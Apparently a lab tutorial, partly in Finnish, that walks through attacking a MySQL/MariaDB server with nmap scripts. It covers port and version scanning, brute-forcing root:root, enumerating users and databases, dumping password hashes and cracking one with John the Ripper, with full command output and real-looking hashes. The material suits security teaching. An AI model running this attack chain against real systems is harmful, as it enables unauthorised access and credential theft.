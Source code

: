 Listing MySQL databases 
===

MySQL is an open Source for Relational Database Management System that uses structured query language for generating database record.  

Let’s Begin !!!

# Scanning for port 3306

 open the terminal and type following command to check MySQL service is activated on the targeted system or not, basically MySQL service is activated on default port 3306.


```
nmap -sT 192.168.1.216
```
# Retrieve MySQL information

Now type another command to retrieve MySQL information such as version, protocol and etc:

```
nmap --script=mysql-info 192.168.1.216
```
### Example....

```
nmap --script=mysql-info 192.168.10.170
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 11:13 EET
Nmap scan report for 192.168.10.170
Host is up (0.013s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
3306/tcp open  mysql
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.4-MariaDB-1~deb12u1
|   Thread ID: 145323
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSigpipes, Speaks41ProtocolNew, SupportsTransactions, Speaks41ProtocolOld, InteractiveClient, Support41Auth, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, ODBCClient, LongColumnFlag, SupportsCompression, FoundRows, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: VIM'xLO)}\7:]F(4j:":
|_  Auth Plugin Name: mysql_native_password
5900/tcp open  vnc

Nmap done: 1 IP address (1 host up) scanned in 3.29 seconds
```
Above command try to connect to with MySQL server and hence prints information such as the protocol: 10, version numbers: 5.5.5-10.11.4-MariaDB-1~deb12u1, thread ID: 145323, status: auto-commit, capabilities, and the password salt as shown in given image.

## Brute force attack

┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nmap -p3306 --script mysql-brute 192.168.10.170

Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 08:33 EET
Nmap scan report for 192.168.10.170
Host is up (0.24s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-brute: 
|   Accounts: 
|     root:root - Valid credentials
|_  Statistics: Performed 45009 guesses in 232 seconds, average tps: 196.6

Nmap done: 1 IP address (1 host up) scanned in 233.17 seconds
                                                                                                                                                   
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nmap --script=mysql-brute 192.168.10.170

Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 08:38 EET
Nmap scan report for 192.168.10.170
Host is up (0.0092s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
3306/tcp open  mysql
| mysql-brute: 
|   Accounts: 
|     root:root - Valid credentials
|_  Statistics: Performed 45009 guesses in 260 seconds, average tps: 176.7
5900/tcp open  vnc

Nmap done: 1 IP address (1 host up) scanned in 263.01 seconds

## Finding root accounts with an empty password in MySQL servers
                                                                                                                            
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nmap -p3306 --script mysql-empty-password 192.168.10.170 

Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 08:56 EET
Nmap scan report for 192.168.10.170
Host is up (0.0086s latency).

PORT     STATE SERVICE
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 0.34 seconds

## Listing MySQL users

┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nmap -p3306 --script mysql-users --script-args mysqluser=root,mysqlpass=root 192.168.10.170

Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 09:58 EET
Nmap scan report for 192.168.10.170
Host is up (0.0046s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-users: 
|   21Oppilas
|   root
|   mariadb.sys
|   mysql
|_  wpuser

Nmap done: 1 IP address (1 host up) scanned in 0.28 seconds

```

# Detecting insecure configurations in MySQL servers

Insecure configurations in databases could be abused by attackers. The Center for Internet Security (CIS) publishes a security benchmark for MySQL, and Nmap can use this benchmark as a base to audit the security configurations of MySQL servers. For more information can be found here: https://www.mysql.com/products/enterprise/cisbenchmark.html

Täältä voi katsoa mysql-cis.audit filen ohjeet:  https://svn.nmap.org/nmap/scripts/mysql-audit.nse


## How to do it...

To detect insecure configurations in MySQL servers, enter the following command:
```
nmap -p 3306 --script mysql-audit --script-args "mysql- audit.username='root', \
-- mysql-audit.password='root',mysql- audit.filename='nselib/data/mysql-cis.audit'"
```

## Retrieve database names

This command will fetch MySQL database name which helps of given argument mysqluser root and mysqlpass root.

```
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nmap -p3306 192.168.10.170 --script=mysql-databases --script-args mysqluser=root,mysqlpass=root  

Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 11:21 EET
Nmap scan report for 192.168.10.170
Host is up (0.12s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-databases: 
|   10Oppilas
|   11Oppilas
|   12Oppilas
|   13Oppilas
|   14Oppilas
|   15Oppilas
|   16Oppilas
|   17Oppilas
|   18Oppilas
|   19Oppilas
|   1Oppilas
|   20Oppilas
|   21Oppilas
|   22Oppilas
|   23Oppilas
|   24Oppilas
|   25Oppilas
|   26Oppilas
|   27Oppilas
|   28Oppilas
|   2Oppilas
|   30Oppilas
|   3Oppilas
|   4Oppilas
|   5Oppilas
|   6Oppilas
|   7Oppilas
|   8Oppilas
|   9Oppilas
|   DigiOs
|   Maila
|   SuperP
|   Vuokatti
|   employee
|   information_schema
|   mikandb
|   mydb
|   mysql
|   news
|   performance_schema
|   saaAsema
|   sys
|   testinews
|_  wpdb

Nmap done: 1 IP address (1 host up) scanned in 1.04 seconds
                                                                                                                                                   
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ 
```
## Retrieve Hash Dump

This command will Dumps the password hashes from a MySQL server in a format suitable for cracking by tools such as John the Ripper.

```
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nmap -p3306 192.168.10.170 --script=mysql-dump-hashes --script-args username=root,password=root

Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-13 11:24 EET
Nmap scan report for 192.168.10.170
Host is up (0.011s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-dump-hashes: 
|   root:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
|   mysql:invalid
|   wpuser:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
|_  21Oppilas:*C5B1A33B622B93204CBE66EA5D17342D0F2397CF

Nmap done: 1 IP address (1 host up) scanned in 1.24 seconds
                                                                                                                                                   
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ 
```
## John the Ripper

```
--Luodaan tiedosto, johon hash salasana kopioidaan

┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ touch hashes.txt   
                                                                                           -- Avataan tiedosto   ja kopioidaan kryptattu salasana                                                
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ nano hashes.txt   
                                                                                           -- Ja john tulille

┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ john hashes.txt                               

Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 128/128 ASIMD 4x])
Warning: no OpenMP support for this hash type, consider --fork=2
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
root             (?)     
1g 0:00:00:01 DONE 3/3 (2023-12-13 11:36) 0.9708g/s 5464Kp/s 5464Kc/s 5464KC/s roob..rooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                   
┌──(parallels㉿kali-gnu-linux-2023)-[~]
└─$ 
```



